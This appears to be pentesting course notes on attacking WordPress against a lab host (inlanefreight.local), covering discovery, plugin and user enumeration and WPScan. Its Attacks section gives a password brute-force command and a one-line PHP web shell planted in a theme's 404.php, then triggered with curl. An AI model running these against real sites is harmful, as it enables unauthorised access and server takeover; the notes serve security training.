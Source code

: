 # Wordpress

## Overview

## Discovery

A quick way to identify a WordPress site is by browsing to the /robots.txt file. A typical robots.txt on a WordPress installation may look like:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Another quick way to identify a WordPress site is by looking at the page source.

```shell
curl -s http://blog.inlanefreight.local | grep WordPress
```

## Enumeration

### Themes and Plugins

Find the themes:

```shell
curl -s http://blog.inlanefreight.local/ | grep themes
```

Find the plugins:

```shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```

For the plugins found we can try to get there readme.txt to get their version:

```
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
```

Check for exploits in both themes and plugins used.

### Users

An invalid username returns that the user was not found. So we can do user enumeration this way.

## Enumeration - Automation

### WPScan

```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

We can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports

## Attacks

### Login Bruteforce

```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### RCE

As admin, edit a used theme 404.php page, with:

```php
system($_GET[0]);
```

Then do

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
